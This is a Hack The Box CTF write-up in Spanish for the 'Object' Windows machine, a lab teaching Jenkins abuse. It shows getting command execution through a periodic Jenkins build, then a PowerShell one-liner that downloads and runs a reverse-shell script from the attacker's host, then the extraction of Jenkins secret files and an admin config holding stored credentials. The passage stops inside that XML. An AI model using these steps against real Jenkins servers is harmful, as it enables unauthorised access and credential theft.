+++
author = "Andrés Del Cerro"
title = "Hack The Box: Object Writeup | Hard"
date = "2024-09-01"
description = ""
tags = [
    "HackTheBox",
    "Object",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "Jenkins Enumeration",
    "Weaponizing Jenkins",
    "Dumping Secrets",
    "Decrypting Admin Credentials",
    "Abusing WinRM",
    "Bloodhound Enumeration",
    "Abusing ForceChangePassword",
    "User Pivoting",
    "Shadow Credentials",
    "Abusing GenericWrite",
    "Abusing User Script Path",
    "Information Leakage",
    "Abusing WriteOwner"",
]

+++

# Hack The Box: Object Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Object"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.96.147 --ulimit 5000 -g
10.129.96.147 -> [80,5985,8080]
```

```console
$ nmap -p80,5985,8080 -sCV 10.129.96.147 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 21:37 CEST
Nmap scan report for 10.129.96.147
Host is up (0.036s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-title: Mega Engines
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp open  http    Jetty 9.4.43.v20210629
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.43.v20210629)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.88 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.96.147 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 21:37 CEST
Nmap scan report for 10.129.96.147
Host is up (0.047s latency).
Not shown: 1497 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```


Del escaneo inicial podemos detectar que nos enfrentamos a un entorno de directorio activo ya que vemos el puerto 88/UDP abierto (Kerberos), puede no ser directorio activo pero lo podemos suponer.

Además vemos expuesto el servicio de WinRM y dos servicios web.

# HTTP Enumeration
`whatweb` nos reporta el dominio `object.htb`, lo añadimos al `/etc/hosts`
```console
$ whatweb http://10.129.96.147
http://10.129.96.147 [200 OK] Country[RESERVED][ZZ], Email[ideas@object.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.96.147], JQuery[2.1.3], Microsoft-IIS[10.0], Modernizr, Script, Title[Mega Engines]
```

Así se ve el sitio web, no tiene ninguna funcionalidad.


Tiene un hipervínculo al servicio del puerto 8080/TCP que corresponde con una instancia de `Jenkins`



Está habilitado el registro de usuarios, vamos a crearnos una cuenta.




No podemos acceder a la ruta `/script` ya que es solo para administradores.

Podemos crear un nuevo proyecto para mediante la sección de `Build` especificar que se ejecute un comando a nivel de sistema a la hora de compilar el proyecto.


Vamos a especificar que se haga un ping a mi sistema a modo de prueba.


Pero no me da la opción para poder compilar el proyecto.


## Building The Jenkins Project -> RCE
Buscando un poco me encontré lo siguiente:
> - If **Build now** button doesn't appear, you can still go to **configure** --> **Build Triggers** --> `Build periodically` and set a cron of `* * * * *`
>     
> - Instead of using cron, you can use the config "**Trigger builds remotely**" where you just need to set a the api token name to trigger the job. Then go to your user profile and **generate an API token** (call this API token as you called the api token to trigger the job). Finally, trigger the job with: `**curl <username>:<api_token>@<jenkins_url>/job/<job_name>/build?token=<api_token_name>**`

Establecemos el tiempo por cada ejecución, cada minuto.


Y conseguimos ejecución remota de comandos.
```console
21:57:58.440906 IP 10.10.14.108 > object.htb: ICMP echo reply, id 1, seq 3227, length 40  
21:57:59.456503 IP object.htb > 10.10.14.108: ICMP echo request, id 1, seq 3230, length 40
21:57:59.456528 IP 10.10.14.108 > object.htb: ICMP echo reply, id 1, seq 3230, length 40  
21:58:00.472438 IP object.htb > 10.10.14.108: ICMP echo request, id 1, seq 3234, length 40
```

Al intentar mandarnos una reverse shell.

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.14.108:8081/Invoke-PowerShellTcp.ps1')|iex"
```

Nos indica que no ha sido capaz de conectarse a un servidor remoto, por lo cual puede que se estén bloqueando las conexiones.


Probando con una reverse shell de [revshells.com](https://www.revshells.com/)

Vemos que también está bloqueado.


## Dumping Jenkins Secrets -> Foothold
Podemos intentar dumpear los "secrets" de Jenkins. Lo había hecho anteriormente accediendo a través de la consola de `Groovy` pero esta vez no tenemos acceso a esta consola, pero podemos intentar acceder a los archivos internos a través del RCE para conseguir las claves de encriptación y los secrets.

Primero necesitamos saber donde está instalado esta instancia de Jenkins.

Viendo los errores descubrimos fácilmente donde está instalada esta instancia.


Podemos cambiar el comando del `Build` a `dir C:\Users\oliver\AppData\Local\Jenkins\.jenkins\` y cuando se intenta compilar vemos el output por consola.

Vemos el directorio `secrets`, vamos a listar que hay aquí dentro. Según la documentación debería de haber dos archivos.
- secrets/master.key
- secrets/hudson.util.Secret



Aquí los vemos.


Vamos a ver el contenido del `hudson.util.Secret`


Vemos que no es legible, así que vamos a convertirlo a base64 para copiarlo a nuestra máquina.


```powershell
powershell -Command "[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret'))"
```

Y aquí lo tenemos.


Ahora en nuestra máquina.
```console
$ echo "gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=" | base64 -d > hudson.util.Secret
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/object/content]
└──╼ [★]$ cat hudson.util.Secret 
\,bnw3Àgdw-J)
 !sE1a;>Uյ8     xd$YU
k1Α}Av
DaIXD-"Gt\Q_]ƚ>J/L('UJ|R7=vP7:D{KI8Ğ!UXʠPfE4Lܤ^*ZuҮtdʄ! 7zQ"
```

Ahora vamos con el fichero `master.key`, hacemos lo mismo..


```console
$ echo "ZjY3M2ZkYjBjNGZjYzMzOTA3MDQzNWJkYmUxYTAzOWQ4M2E1OTdiZjIxZWFmYmI3ZjliMzViNTBmY2UwMDZlNTY0Y2ZmNDU2NTUzZWQ3M2NiMWZhNTY4YjY4YjMxMGFkZGM1NzZmMTYzN2E3ZmU3MzQxNGE0YzZmZjEwYjRlMjNhZGM1MzhlOWIzNjlhMGM2ZGU4ZmMyOTlkZmEyYTM5MDRlYzczYTI0YWE0ODU1MGIyNzZiZTUxZjkxNjU2Nzk1OTViMmNhYzAzY2MyMDQ0ZjNjNzAyZDY3NzE2OWUyZjRkM2JkOTZkODMyMWEyZTE5ZTJiZjBjNzZmZTMxZGIxOQ==" | base64 -d > master.key
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/object/content]
└──╼ [★]$ cat master.key 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
```

Ahora, solo hace falta dumpear los secretos y rezar para que exista alguno.

No hay ni rastro del fichero `credentials.xml` y por alguna razón la máquina dejó de compilar el proyecto, por lo cual tuve que reiniciar la máquina.

Vemos un directorio `\users\`

Que contiene mi usuario y al usuario administrador, vamos a ver que hay dentro de ese directorio.


Vemos que hay un archivo `config.xml`, vamos a ver que contiene.


Y vemos varias cosas interesantes.
```xml
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.5">
      <providerId>default</providerId>
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <jenkins.security.seed.UserSeedProperty>
      <seed>ea75b5bd80e4763e</seed>
    </jenkins.security.seed.UserSeedProperty>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.model.TimeZoneProperty/>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
      <emailAddress>admin@object.local</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1634793332195</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
